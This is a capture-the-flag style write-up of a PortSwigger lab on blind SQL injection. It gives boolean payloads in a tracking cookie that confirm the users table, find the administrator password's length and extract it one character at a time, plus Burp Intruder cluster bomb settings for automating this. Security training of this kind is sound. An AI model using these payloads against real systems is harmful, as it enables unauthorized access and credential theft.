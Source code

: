 ```yaml
---
title: PortSwigger - SQLi 11 - Blind SQLi with conditional responses
date: 2023-05-17
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli, blind, clusterbomb]
img_path: /assets/img/
---
```


Difficulty: `Practitioner`

## 🎯 Goal

This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "**Welcome back**" message in the page if the query returns any rows.

The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

First, let's capture the request into Burp to see what it looks like:

````http
GET / HTTP/2
Host: <host>
Cookie: TrackingId=inef9UVjAF4GJLdj; session=86UdOy9CSRpdDtjDrCqiziIuKdAog6uR
Cache-Control: max-age=0
[...]
````

We know the query behind the ``TrackingId`` is vulnerable to blind SQLi and a ``Welcome back`` message is displayed when the query returns ``true``.

We can test this behaviour with a basic test:

````s
TrackingId=inef9UVjAF4GJLdj' AND '1'='1;    # Welcome back
TrackingId=inef9UVjAF4GJLdj' AND '1'='2;    # Nothing
````

Let's be sure there is a `users` table:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users LIMIT 1)='a     # Welcolme back
````

Let's be sure there is an `administrator` user:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator')='a      # Welcolme back
````

Before guessing the password we have to find its length. I could automate it but usually password aren't that long :(

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a     # Welcome back: password length > 1 char
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>10)='a    # Welcome back: password length > 10 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a    # Nothing: password length <= 20 chars
````

Ok so password is between 10 and 20 chars. Let's try one by one now.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a    # Welcome back: password length = 20 chars
TrackingId=inef9UVjAF4GJLdj' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=19)='a    # Nothing: password length != 19 chars
````

The password is ``20`` characters long.

Now time to guess the password. Two possibilities:

- Manually checking every characters at every position (boring)
- Automate with Burp Intruder to send hundreds of requests for us (cool)

Even if we should always automate everything as much as we can I will still present the manual way to show how it is working.

### 1. Manual password guessing

We will have to test one by one every character possible for every position. It's written the password only includes lowercase alphanumeric characters ([a-z][0-9]) and there are 20 positions (the password length) so it's a total of ``36 * 20 = 720`` posibilities...

Because it is too much to do manually I will only explain the principle behind: test every character for every position.

This query uses the ``SUBSTRING()`` function to extract a single character from the password, and test it against a specific value, here `a` at the position `1`. and `9` at the position `20`.

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a      # First request
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='9     # Last request
````

Assuming I successfully sent the 720 requests without errors I should have found the password.

### 2. Automate password guessing

I have the Burp Suite Community Edition so I have some feature and throttle limitation but it's doing the work good.

First we have to send the request to the ``Intruder`` with ``ctrl+i``.

In the ``Positions`` tab select ``Cluster bomb``.

The payload positions will be the password character position and the character to test, as the following:

````s
TrackingId=inef9UVjAF4GJLdj' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
````

In the Payloads tab:

- payload set 1 will be ``Numbers``
  - from ``1``
  - to ``20``
  - step of ``1``
- payload set 2 will be ``Brute forcer``
  - character set `abcdefghijklmnopqrstuvwxyz0123456789`
  - min length ``1``
  - max length ``1``

When everything is correctly set we can start the attack. Because the CE edition has a request rate limit of 1 per second it took 10+ minutes to end.

We can sort the result responses on their length because the responses with the Welcolme back message will be longuer than those without.

![attack responses](/psa/sqli/psa-sqli-11-1.png){: width="830" height="560" }
_Burp Cluster bomb attack results_

We obtain a table like below revealing the password!

|   1   |   2   |    3 |   4   |   5   |   6   |   7   |   8   |   9   |  10   |  11   |  12   |  13   |  14   |  15   |  16   |  17   |  18   |  19   |  20   |
| :---: | :---: | ---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|   5   |   k   |    y |   j   |   d   |   q   |   4   |   y   |   a   |   q   |   6   |   0   |   q   |   j   |   6   |   6   |   6   |   7   |   4   |   1   |

We can now log in as the ``administrator`` user using the password ``5kyjdq4yaq60qj666741``.
